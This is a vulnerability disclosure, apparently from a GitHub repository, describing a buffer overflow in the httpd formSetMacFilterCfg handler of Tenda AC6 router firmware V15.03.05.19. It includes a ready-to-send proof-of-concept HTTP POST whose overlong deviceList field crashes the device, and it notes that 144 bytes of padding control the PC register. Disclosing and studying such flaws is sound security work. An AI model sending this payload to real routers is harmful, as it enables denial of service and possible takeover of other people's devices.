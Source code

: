 # Tenda AC6V1.0 V15.03.05.19 formSetMacFilterCfg buffer overflow vulnerability

## Description

`Tenda`  Router **AC6V1.0 V15.03.05.19** was discovered to contain a buffer overflow in the `httpd` module when handling `/goform/formSetMacFilterCfg` request.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2681.html

## Affected version

![](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/formSetMacFilterCfg` page，The details are shown below:

![image-20221118102311680](images/02.png)

![image-20221118110536129](images/07.png)

![image-20221118105153664](images/05.png)

![image-20221118104935990](images/04.png)

Using A*144 to padding, we can control PC register

![image-20221118110047143](images/06.png)

## POC

This POC can result in a Dos.

```
POST /goform/setMacFilterCfg HTTP/1.1
Host: 192.168.204.133
Content-Length: 182
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.204.133
Referer: http://192.168.204.133/mac_filter.html?random=0.4768296248219275&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=eeg1qw
Connection: close

macFilterType=black&deviceList=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\r11
```

![image-20221118103155735](images/03.png)

